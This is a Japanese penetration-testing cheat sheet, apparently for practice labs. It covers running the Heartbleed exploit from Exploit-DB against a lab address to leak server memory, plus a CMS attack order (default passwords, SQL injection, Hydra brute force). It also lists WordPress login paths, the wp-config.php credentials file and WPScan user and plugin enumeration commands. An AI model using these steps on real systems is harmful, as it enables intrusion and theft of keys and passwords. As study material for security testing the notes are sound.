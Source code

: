 ### Heartbleed(CVE-2014-0160)
OpenSSLの脆弱性。  
サーバの秘密鍵や利用者のパスワードを盗み出すことができる可能性がある。  
下記のスクリプトを利用する場合はgrepで00 00...を省くと簡潔に出力できる。  
https://www.exploit-db.com/exploits/32745
```
import os

cmd = "python2 32745.py 10.10.10.79 | grep -v '00 00 00 00 00 00 00 00 00'"
for i in range(10):
    os.system(cmd)
```
使いやすさ的には下記のスクリプトがオススメ。  
heartbleed.py:  
https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py

## CMS
- CMSの特定後、ログインページについて調査
- その後、まずはデフォルトパスワードを入力
- 次にSQLインジェクションを試す
- サーバ内で見つけたものなどを用いて、パスワード推測
- 最終的にHydraなどでブルートフォース

## WordPress
### チェックするパス
```
# WordPressのバージョン確認
/license.txt

# ログインページ
/wp-admin/login.php
/wp-admin/wp-login.php
/login.php
/wp-login.php
```
### チェックするファイル
```
# データベースのパスワードあり
wp-config.php
```

### WPScan
パッシブスキャン:
```
wpscan --update
wpscan --url <url> -e u #ユーザの列挙
wpscan --url <url> -e vt #脆弱なTheme特定
wpscan --url <url> -e vp #脆弱なプラグイン特定
wpscan --url <url> -e u,vt,vp -o <output filename>
```
- -url...対象のURL指定
- -e 
  - u...usernameの列挙
  - vt...脆弱なテーマを列挙
  - at...全てのテーマを列挙
  - vp...脆弱性のあるプラグインを列挙
  - ap...全てのプラグインを列挙
- -o...ファイル出力

